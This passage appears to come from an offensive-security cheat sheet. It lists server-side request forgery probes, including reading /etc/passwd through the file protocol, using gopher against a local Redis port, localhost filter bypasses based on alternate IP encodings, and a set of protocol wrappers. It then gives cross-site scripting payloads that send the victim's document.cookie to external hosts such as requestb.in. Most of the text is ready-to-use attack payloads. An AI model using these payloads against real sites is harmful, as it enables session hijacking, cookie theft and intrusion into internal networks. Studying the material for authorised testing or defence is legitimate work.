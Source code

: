 ```bash
# It is possible to prove the vulnerability by reading local files
# Using the file protocol
url=file:///etc/passwd

# Then you can enumerate local services that are listening
# Depending on the response
http://localhost:<port>

# It is also possible to use others protocols like gopher and dict
# They don't send HTTP headers and can avoid misinterpretation
gopher://127.0.0.1:6379/test

# Filter bypass
http://127.1 instead of http://127.0.0.1
http://0 instead of http://localhost
http://0xC0A80001 or http://3232235521 => 192.168.0.1
192.168.516 => 192.168.2.4

# php wrappers
gopher://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
```

### xss 
*an attack where malicious scripts are injected into a web application and sent to a different user. typically used to steal cookies or session tokens, they can also go so far as to rewrite the content of the HTML page.*

```bash
# resources
https://html5sec.org/
https://gbhackers.com/top-500-important-xss-cheat-sheet/
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
https://github.com/s0md3v/AwesomeXSS/

# payloads
# Document.location
<script>document.location('http://IP_EXTERNE/'+document.cookie)</script>
<script>document.location.href = 'http://requestb.in/XXXXXX?cookies =' + document.cookie;</script>

# Window
<script>window.open("http://monserveur/Cookie="+document.cookie)</script>
<script>window.location='http://monsite.free.fr/script.php?cookies='+(document.cookie);</script>

# Document.write
<script>document.write('<img src="https://requestb.in/xxxxx?cookie="+document.cookie>admin</img>');</script>
admin"></i>)</span><script>document.write("<img src=http://requestb.in/XXXXX?cookie=".concat(encodeURI(document.cookie)).concat("/>"))</script><i>
```